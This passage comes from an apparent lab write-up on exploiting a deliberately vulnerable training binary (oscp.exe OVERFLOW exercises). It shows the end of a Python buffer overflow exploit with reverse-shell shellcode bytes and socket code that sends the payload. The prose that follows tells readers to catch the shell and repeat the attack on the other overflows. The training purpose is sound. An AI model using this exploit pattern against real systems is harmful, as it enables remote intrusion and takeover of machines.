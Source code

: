 ```python
    b"\x8d\xcd\x9f\x12\xd9\x9d\xde\xff\x0d\xa6\xb6\x29\x58\x9d"
    b"\xe6\x86\xdd\x8d\xe6\x96\xdd\xa5\x5c\xd9\x52\x2d\x49\x03"
    b"\x1a\xa7\xb3\xbe\x87\xc3\xa3\xca\xe5\xcf\xb6\xc7\xd1\x44"
    b"\x50\xbc\x9d\x9b\xe1\xbe\x14\x68\xc2\xb7\x72\x18\x33\x16"
    b"\xf9\xc1\x49\x98\x85\xb8\x5a\xbe\x7d\x78\x14\x80\x72\x18"
    b"\xde\xb5\xe0\xa9\xb6\x5f\x6e\x9a\xe1\x81\xbc\x3b\xdc\xc4"
    b"\xd4\x9b\x54\x2b\xeb\x0a\xf2\xf2\xb1\xcc\xb7\x5b\xc9\xe9"
    b"\xa6\x10\x8d\x89\xe2\x86\xdb\x9b\xe0\x90\xdb\x83\xe0\x80"
    b"\xde\x9b\xde\xaf\x41\xf2\x30\x29\x58\x44\x56\x98\xdb\x8b"
    b"\x49\xe6\xe5\xc5\x31\xcb\xed\x32\x63\x6d\x6d\xd0\x9c\xdc"
    b"\xe5\x6b\x23\x6b\x10\x32\x63\xea\x8b\xb1\xbc\x56\x76\x2d"
    b"\xc3\xd3\x36\x8a\xa5\xa4\xe2\xa7\xb6\x85\x72\x18"
)
postfix = ""

# Build and send the buffer
buffer = prefix + overflow + retn + padding + payload.decode('latin-1') + postfix

print(f"[+] Connecting to {ip}:{port}...")
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((ip, port))
    print(f"[+] Sending {len(buffer)} bytes payload...")
    s.send(buffer.encode('latin-1') + b"\r\n")
    print("[+] Payload sent.")

print("[+] Done. Check your listener for a shell!")
```

We need to restart it and send the exploit:

![](images/Pasted%20image%2020250529131124.png)

If we got our listener ready, we will receive the connection:

![](images/Pasted%20image%2020250529131143.png)

We can now answer the questions:

![](images/Pasted%20image%2020250529131224.png)


From now on, since the process is pretty much the same, you guys can practice by trying to get a reverse shell in every single `OVERFLOW`. If you got any problem, check the answers below.

# oscp.exe - OVERFLOW2

---


![](images/Pasted%20image%2020250529132544.png)


# oscp.exe - OVERFLOW3

---